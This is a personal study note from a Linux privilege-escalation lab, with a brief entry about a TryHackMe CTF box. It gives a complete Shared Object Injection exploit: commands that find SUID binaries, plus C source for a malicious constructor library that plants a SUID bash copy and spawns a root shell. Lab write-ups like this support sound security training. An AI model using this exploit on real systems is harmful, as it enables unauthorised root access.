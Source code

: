#Linux #PrivEsc #SUID #SharedObjectInjection #GTFOBins #sudo 

# Shared Object Injection
#SharedObjectInjection
## **Detection**
Linux VM

1. In command prompt type: `find / -type f -perm -04000 -ls 2>/dev/null`
	1. ... or `find / -type f -perm -u=s 2>/dev/null`
2. From the output, make note of all the SUID binaries.
3. In command line type:
`strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"`
4. From the output, notice that a .so file is missing from a writable directory.

## **Exploitation**
Linux VM

5. In command prompt type: `mkdir /home/user/.config`
6. In command prompt type: `cd /home/user/.config`
7. Open a text editor and type:
```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

8. Save the file as `libcalc.c`
9. In command prompt type:
`gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c`
10. In command prompt type: `/usr/local/bin/suid-so`
11. In command prompt type: `id`

---
# CTF Challenge

VulnUniversity - THM

==Began enumeration, and kept dropping connection to the server.
`http://10.10.8.214:3333/internal`
I restarted the machine from THM multiple times, switched vpn regions, regenerated, redownloaded, and no luck.

==FIXED? Do box==
